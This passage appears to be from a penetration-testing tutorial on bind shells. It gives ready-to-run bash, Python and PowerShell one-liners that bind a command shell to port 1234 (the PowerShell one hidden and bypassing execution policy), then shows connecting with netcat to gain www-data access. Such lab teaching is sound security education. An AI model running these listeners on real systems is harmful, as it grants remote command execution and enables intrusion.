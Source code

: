 * * *

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

* * *

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

* * *

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

```shell
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
